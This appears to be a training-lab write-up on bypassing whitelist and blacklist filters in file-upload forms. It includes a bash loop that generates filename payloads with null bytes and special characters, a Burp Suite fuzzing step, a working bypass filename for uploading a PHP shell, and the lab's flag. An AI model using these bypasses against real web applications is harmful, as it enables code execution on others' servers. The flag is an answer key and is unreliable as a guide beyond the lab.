



# Section 06: Whitelist Filters

Module: 21. File Upload Attacks

---

## Questions & Answers

### 1. The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

Context:
- Create our own wordlist:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```
- Use Burp Suite to fuzzing the allowed extension:

- Length `230` is a list of allowed extension:

- I found this one works: `shell….phar.jpg`, upload the shell and get the flag:


**Answer:** `HTB{1_wh173l157_my53lf}`

---

[Back to Module Index](./README.md)
